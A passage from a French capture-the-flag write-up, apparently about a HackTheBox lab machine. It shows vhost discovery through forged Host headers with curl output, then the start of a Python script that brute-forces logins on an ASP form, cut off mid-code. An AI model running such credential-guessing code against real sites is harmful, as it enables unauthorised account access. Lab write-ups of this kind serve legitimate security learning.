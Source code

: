 La dernière annonce sur le site fait mention du domaine *streetfighterclub.htb* ainsi que l'existence de la vieille version du site pour les membres déplacée à un emplacement qui n'est lui pas mentionné.  

Retrouver l'espace membres a été aisé, j'ai seulement forgé l'entête HTTP Host et comparé la somme md5 du body des réponses :  

```plain
devloop@kali:~$ curl -H "Host: streetfighterclub.htb" http://10.10.10.72/ |md5sum
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  6911  100  6911    0     0  95986      0 --:--:-- --:--:-- --:--:--  112k
2b0d3b985f4fcdc08bf07290a1d56037  -
devloop@kali:~$ curl -H "Host: members.streetfighterclub.htb" http://10.10.10.72/ |md5sum
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1233  100  1233    0     0   4003      0 --:--:-- --:--:-- --:--:--  4029
11ca4578cb026a23713aea6781b8ece3  -
devloop@kali:~$ curl -H "Host: mesmbers.streetfighterclub.htb" http://10.10.10.72/ |md5sum
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  6911  100  6911    0     0  77651      0 --:--:-- --:--:-- --:--:-- 86387
2b0d3b985f4fcdc08bf07290a1d56037  -
```

On voit ici clairement un contenu différent du contenu par défaut quand on spécifie l'hôte *members.streetfighterclub.htb*.  

Une ligne dans le fichier */etc/hosts* plus tard et on obtient une erreur 403 *You do not have permission to view this directory or page using the credentials that you supplied.* quand on accède à l'index de ce domaine.  

Cela nous incite à lancer un dir-buster quelconque qui nous remonte rapidement le dossier */old* à la racine.  

Dans ce dossier on trouve ensuite une page de login (*login.asp*) qui envoie les identifiants vers le script *verify.asp* et enfin il y a un script *welcome.asp* qui est sans doute la page sur laquelle on atterrit si l'on saisit des identifiants valides.  

J'ai écrit un script Python rapide pour tester des identifiants possibles (noms d'utilisateurs classiques du type admin, test, web... ainsi que les personnages du jeu) :  

```python
import sys

import requests
from requests.exceptions import RequestException

user_file = sys.argv[1]
pass_file = sys.argv[2]

sess = requests.session()

with open(user_file) as fd:
    for username in fd:
        print("Trying user", username)
        username = username.strip()

        with open(pass_file) as fd2:
            for password in fd2:
                password = password.strip()

                for login_type in (1, 2):
                    try:
                        response = sess.post(
                            "http://members.streetfighterclub.htb/old/verify.asp",
                            data={"username": username, "password": password, "logintype": login_type, "B1": "LogIn"},
```